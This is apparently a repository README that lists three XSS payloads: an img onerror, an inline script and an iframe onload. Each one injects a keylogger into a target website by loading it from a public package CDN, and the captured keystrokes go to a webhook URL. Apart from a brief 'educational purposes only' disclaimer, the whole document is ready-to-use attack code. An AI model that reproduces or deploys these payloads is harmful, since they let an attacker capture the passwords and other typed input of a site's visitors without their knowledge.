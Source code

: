 # `Keylogger.js` XSS Payload Examples
The following are examples of XSS payloads that can be used to inject the `Keylogger.js` script into a target website.

## ⚠️ Disclaimer
Usage of this script without the consent of the target is illegal. This repository is for educational purposes only. The author will not be held responsible for any misuse of this script.

## Examples

```html
<!-- Using image tag with onerror event -->
<img src="-" onerror="import('https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js').then(module => { 
    const Keylogger = module.default; 
    const keylogger = new Keylogger('https://your-webhook-url.com', false); 
    console.log('Keylogger started:', keylogger); 
});" />
<!-- Using <script> with inline JavaScript -->
<script>
  import('https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js').then(module => { 
      const Keylogger = module.default; 
      const keylogger = new Keylogger('https://your-webhook-url.com', false); 
      console.log('Keylogger started:', keylogger); 
  });
</script>
<!-- Using <iframe> with onload event -->
<iframe src="javascript:void(0)" onload="import('https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js').then(module => { 
    const Keylogger = module.default; 
    const keylogger = new Keylogger('https://your-webhook-url.com', false); 
    console.log('Keylogger started:', keylogger); 
});">
</iframe>
```
